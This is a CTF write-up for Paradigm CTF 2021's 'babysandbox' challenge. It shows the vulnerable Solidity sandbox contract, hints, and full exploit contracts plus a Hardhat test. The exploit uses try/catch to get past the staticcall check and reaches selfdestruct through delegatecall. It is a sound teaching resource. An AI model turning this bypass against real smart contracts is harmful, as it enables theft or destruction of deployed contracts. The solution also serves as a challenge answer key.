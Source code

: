 ```yaml
---
layout: post
title: 'Paradigm CTF 2021: babysandbox'
category: Paradigm CTF 2021
excerpt_separator:  <!--more-->
---
```


### Challenge:
This write-up is for the challenge titled 'babysandbox'.


This challenge is located in the babysandbox/public/ directory. The source code can be found below:

<details>
<summary> BabySandbox.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.7.0;

contract BabySandbox {
    function run(address code) external payable {
        assembly {
            // if we're calling ourselves, perform the privileged delegatecall
            if eq(caller(), address()) {
                switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
                    case 0 {
                        returndatacopy(0x00, 0x00, returndatasize())
                        revert(0x00, returndatasize())
                    }
                    case 1 {
                        returndatacopy(0x00, 0x00, returndatasize())
                        return(0x00, returndatasize())
                    }
            }
            
            // ensure enough gas
            if lt(gas(), 0xf000) {
                revert(0x00, 0x00)
            }
            
            // load calldata
            calldatacopy(0x00, 0x00, calldatasize())
            
            // run using staticcall
            // if this fails, then the code is malicious because it tried to change state
            if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) {
                revert(0x00, 0x00)
            }
            
            // if we got here, the code wasn't malicious
            // run without staticcall since it's safe
            switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
                case 0 {
                    returndatacopy(0x00, 0x00, returndatasize())
                    // revert(0x00, returndatasize())
                }
                case 1 {
                    returndatacopy(0x00, 0x00, returndatasize())
                    return(0x00, returndatasize())
                }
        }
    }
}
```
</div>
</details>

<details>
<summary> Setup.sol:</summary>
<br>
<div markdown="1">
```
pragma solidity 0.7.0;

import "./BabySandbox.sol";

contract Setup {
    BabySandbox public sandbox;
    
    constructor() {
        sandbox = new BabySandbox();
    }
    
    function isSolved() public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(sload(sandbox.slot))
        }
        return size == 0;
    }
}

```
</div>
</details>


The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
There are two key operations within babysandbox that comprise the sandbox. The first, is a staticcall and the second is a regular call. Both calls are made using the existing calldata and therefore make a delegatecall to the contract passed in to the run funtion initially.
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
[Illegal Staticcall Operations](https://eips.ethereum.org/EIPS/eip-214#specification)
</div>
</details>

The solution for this level can be found below:

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Putting all of the info from our hints together, we can see that the sandbox is the staticcall operation. It is used as a check to ensure that we do not perform state change operations before the contract goes through and performs an unsafe delegatecall. If we can bypass the staticcall check, then we can make a delegatecall from the context of the sandbox to an arbitrary address. This is useful, because the win condition is for the codesize of the sandbox to be 0. This can be achieved through the `selfdestruct()` function.

Our solution is to simply handle a revert caused by a staticcall in order to return a non-zero value. We can achieve this with a try catch block and a couple of custom contracts: 
</div>
</details>

<details>
<summary> Hardhat Challenge:</summary>
<br>
<div markdown="1">
```
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] babysandbox', function () {

    before(async function () {
        /** SETUP */
        [deployer] = await ethers.getSigners();

        const Setup = await ethers.getContractFactory('SetupBS', deployer);
        this.setup = await Setup.deploy();

        const BabySandbox = await ethers.getContractFactory('BabySandbox', deployer);
        this.babysandbox = await BabySandbox.attach(await this.setup.sandbox());

    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        expect(
            await this.setup.isSolved()
        ).to.equal(true);
    });
});
```
</div>
</details>

</div>
</details>
<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
import "./SetupBS.sol";
pragma solidity 0.7.0;
contract Receiver {
    Spacer private immutable space = new Spacer();
    fallback() external payable {
        // call that performs an sstore
        // should revert and catch on static call 
        try space.magic_eightball(8) { 
            // if it doesn't revert, then call selfdestruct
            // should run this on a regular call
            selfdestruct(address(0)); 

            } catch {
                //if it reverts, then do nothing
            } 
    }
}

contract BSAttacker {

    Setup public setup;
    constructor(address _setup) {
        setup = Setup(_setup);
    }

    function attack() public {
        setup.sandbox().run(address(new Receiver()));
    }
}

contract Spacer {
    uint256 value = 1;
    function magic_eightball(uint256 _value) external {
        assembly {
            sstore(0, _value)
        }

    }
}

```
</div>
</details>

<details>
<summary> HardHat Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE  */
        const BSAttacker = await ethers.getContractFactory('BSAttacker', deployer);
        this.bsAttacker = await BSAttacker.deploy(this.setup.address);

        await this.bsAttacker.attack();
    });
```
</div>
</details>


